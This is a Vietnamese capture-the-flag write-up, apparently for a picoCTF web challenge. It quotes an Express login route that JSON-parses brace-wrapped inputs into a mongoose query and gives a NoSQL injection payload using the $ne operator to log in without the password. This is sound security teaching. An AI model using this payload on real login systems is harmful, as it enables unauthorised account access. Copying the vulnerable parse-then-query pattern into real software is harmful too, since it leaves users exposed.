 ```js
  }
}

startServer().catch((err) => console.error(err));

```

Để lấy được flag, chúng ta cần phải đăng nhập thành công vào email `picoplayer355@picoctf.org`. Tuy nhiên, chúng ta lại không biết mật khẩu của người dùng này bởi nó được tạo ngẫu nhiên.

Chúng ta cần tập trung vào đoạn code xử lý tại route `/login`:

```js
app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });
```

Trong trường hợp giá trị của tham số `email` hoặc `password` mà bắt đầu với `{` và kết thúc với `}` thì nó sẽ được chuyển thành `object` bởi hàm `JSON.parse()`. Cộng thêm việc server sử dụng `mongoose` nên đó chính là điều kiện lý tưởng để khai thác lỗi NoSQL Injection.

Do đó, chúng ta sẽ có thể sử dụng payload sau để gửi request. Thực hiện đăng nhập với điều kiện `email` là `picoplayer355@picoctf.org` và `password` không phải là `xxx`:

```json
{
  "email":"picoplayer355@picoctf.org",
  "password":"{\"$ne\":\"xxx\"}"
}
```
